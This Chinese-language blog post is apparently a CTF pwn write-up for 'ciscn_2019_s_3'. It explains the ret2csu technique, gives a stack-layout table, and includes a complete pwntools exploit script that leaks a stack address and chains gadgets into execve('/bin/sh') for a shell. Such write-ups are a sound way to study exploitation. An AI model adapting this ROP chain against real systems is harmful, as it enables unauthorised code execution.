 ```yaml
---
title: 'ciscn_2019_s_3'
date: 2023-12-30 13:00:00 +0800
categories: [ret2csu]
tags: [ctf,pwn]
---
```


  > 在`64`位程序中可以通过栈溢出控制`__lib_csu_init`中的参数来控制`rdx,rsi,edi`寄存器

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

- `syscall`函数会根据`rax`的值来调用函数,例如当`rax==0x3B`时,运行`execute`
- 栈地址泄露
- ROPgadgets

<img src="../assets/img/old_imgs/image-20231227185527471.png" alt="image-20231227185527471" style="zoom:80%;" />

<img src="../assets/img/old_imgs/image-20231227185621950.png" alt="image-20231227185621950" style="zoom: 67%;" />

1.`read`中存在溢出

2.泄露`buf`的地址写入`/bin/sh`

3.通过ROPgadgets得到控制寄存器的地址

4.最后通过`ret2csu`和`syscall`构造出`excuse('/bin/sh',0,0)`得到`shell`

*ret2csu*思路:

1. 首先跳转到`pop rbx`的位置`(csu_end)`,控制一系列寄存器,根据代码可知`r13 -> rdx ; r14 -> rsi ; r15 -> edi`

2. 再`retn`到`mov rdx,r13`的位置`(csu_font)`,这里要注意存在`call`函数,同时,要满足`cmp rbx,rbp`即`$rbx-$rbp==0`才继续运行,为了满足条件我们需要在第$1$步中提前布局
3. 运行`loc_400596`的代码,`add rsp,8`抬高了栈顶,所以我们填充栈的时候也要注意多填充`8`个位置,接着是常规的填充,根据需要,不需要则全部填充为`0xdeadbeef`直到`retn`回到程序流

<img src="../assets/img/old_imgs/image-20231227185656124.png" alt="image-20231227185656124" style="zoom:67%;" />

泄露栈地址后第二次栈布局如下

|       | rbp  |            |       |                    |                                |
| :---: | :--: | :--------: | :---: | :----------------: | :----------------------------: |
| 0x10  |      |  padding   |       |                    | 开头为b"/bin/sh\x00"=>buf_addr |
| 0x18  |      |            |  ret  | 0x000000000040059A |            csu_end             |
| 0x20  |      |     0      |  rbx  |                    |                                |
| 0x28  |      |     1      |  rbp  |                    |                                |
| 0x30  |      |            |  r12  |    bufaddr+0x10    |           call的参数           |
| 0x38  |      |     0      |  r13  |                    |             => rdx             |
| 0x40  |      |     0      |  r14  |                    |             => rsi             |
| 0x48  |      |     0      |  r15  |                    |             => edi             |
| 0x50  |      |            | retn  | 0x0000000000400580 |           2csu_font            |
| 0x58  |      | 0xdeadbeef | rsp,8 |                    |                                |
| 0x60  | rsp  | 0xdeadbeef |  rbx  |                    |                                |
| 0x68  |      | 0xdeadbeef |  rbp  |                    |                                |
| 0x70  |      | 0xdeadbeef |  r12  |                    |                                |
| 0x78  |      | 0xdeadbeef |  r13  |                    |                                |
| 0x80  |      | 0xdeadbeef |  r14  |                    |                                |
| 0x88  |      | 0xdeadbeef |  r15  |                    |                                |
| 0x90  |      |            |  ret  | 0x00000000004004E2 |           rax = 0x3B           |
| 0x98  |      |            | retn  | 0x00000000004005a3 |          pop_rdi_addr          |
| 0x100 |      |            |  ret  | 0x0000000000400517 |            syscall             |

```python
from pwn import *
context.log_level = 'debug'
io = process('./ciscn_s_3')
#io = gdb.debug('./ciscn_s_3','break *0x00000000004004E2')
elf = ELF('./ciscn_s_3')

padding = 0x10
payload1 = b'A'*padding+p64(elf.sym['vuln'])
io.send(payload1)
io.recv(0x20)   #这个偏移主要是gdb看出来的
ebp_addr = u64(io.recv(8))
#print('ebp_addr',hex(ebp_addr))
buf_addr = ebp_addr-0x148   #buu改成-0x118
#print('buf_addr ->',hex(buf_addr))
payload2 =b'/bin/sh\x00'
payload2 = payload2.ljust(0x10,b'\x00')
payload2 += p64(0x000000000040059A)+p64(0)+p64(1)+p64(buf_addr+0x10)+p64(0)+p64(0)+p64(0)+p64(0x0000000000400580)
payload2 += p64(0xdeadbeef)*5+p64(0x00000000004004E2)+p64(0x00000000004005a3)+p64(buf_addr)+p64(0x0000000000400517)
io.send(payload2)
io.interactive()
```

主要一步步动态调试,理解程序控制流.
